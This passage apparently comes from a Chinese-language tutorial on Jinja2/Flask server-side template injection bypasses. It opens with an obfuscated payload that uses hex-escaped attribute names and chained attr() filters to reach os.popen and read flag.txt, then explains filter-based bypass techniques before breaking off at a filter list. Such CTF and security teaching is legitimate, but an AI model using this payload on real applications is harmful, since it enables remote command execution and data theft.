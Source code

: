 ```
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}


```

使用 JinJa 的过滤器进行 Bypass
----------------------

在 Flask JinJa 中，内只有很多过滤器可以使用，前文的 attr() 就是其中的一个过滤器。变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数，也可以没有参数，过滤器函数可以带括号也可以不带括号。可以使用管道符号（|）连接多个过滤器，一个过滤器的输出应用于下一个过滤器。

详情请看官方文档：[https://jinja.palletsprojects.com/en/master/templates/#builtin-filters](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters)

以下是内置的所有的过滤器列表：
